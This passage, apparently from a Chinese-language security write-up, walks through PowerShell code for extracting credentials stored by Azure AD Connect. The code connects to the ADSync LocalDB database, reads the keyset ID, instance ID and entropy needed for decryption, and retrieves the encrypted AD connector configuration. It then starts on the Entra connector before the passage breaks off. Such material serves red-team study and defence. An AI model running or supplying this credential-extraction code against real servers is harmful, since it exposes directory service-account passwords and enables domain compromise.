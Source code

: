 因此，要解密 encrypted_configuration 字段中保存的凭据，最直接的方法是在 Azure ADC 服务器上，从其 LocalDB 实例检索用于加密的密钥材料，然后将其传入 mcrypt.dll 中相应的程序集以执行解密操作。

（1）首先，创建了一个 SqlConnection 对象并尝试打开 ADSync 数据库连接。

```powershell
# Establish connection to ADSync LocalDB database
$sqlClient = New-Object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync2019;Initial Catalog=ADSync"

try {
    $sqlClient.Open()
    Write-Host "[+] Successfully connected to ADSync database"
} catch {
    Write-Host "[!] Could not connect to localdb..."
    return
}
```

（2）然后，查询 mms_server_configuration 表以获取密钥集ID、实例ID和熵值等字段，为后续的解密操作提供必要的密钥材料。

```powershell
Write-Host "[*] Querying dbo.mms_server_configuration table" -ForegroundColor Yellow

# Retrieve encryption keys and configuration from server configuration table
$sqlCommand = $sqlClient.CreateCommand()
$sqlCommand.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$sqlReader = $sqlCommand.ExecuteReader()

if ($sqlReader.Read() -ne $true) {
    Write-Host "[-] Error querying mms_server_configuration"
    return
}

# Extract encryption parameters required for decryption
$keyId = $sqlReader.GetInt32(0)
$instanceId = $sqlReader.GetGuid(1)
$entropy = $sqlReader.GetGuid(2)
$sqlReader.Close()
```

（3）之后，分别获取  “AD DS Connector” 和 “Microsoft Entra Connector”  账户相关的 XML 配置信息，以及各自的加密凭据：

```powershell
Write-Host "[*] Querying dbo.mms_management_agent table" -ForegroundColor Yellow

# Get encrypted configuration and XML settings for AD management agent
$sqlCommand = $sqlClient.CreateCommand()
$sqlCommand.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$sqlReader = $sqlCommand.ExecuteReader()

if ($sqlReader.Read() -ne $true) {
    Write-Host "[-] No results or error querying AD management agent"
    $sqlReader.Close()
    return
}

$adConfigXml = $sqlReader.GetString(0)        # XML containing AD domain/username information
$adEncryptedConfig = $sqlReader.GetString(1)  # Base64 encrypted AD password data
$sqlReader.Close()

Write-Host "[+] Retrieved AD management agent configuration"

# Get encrypted configuration and XML settings for AAD management agent
Write-Host "[*] Querying dbo.mms_management_agent table" -ForegroundColor Yellow

```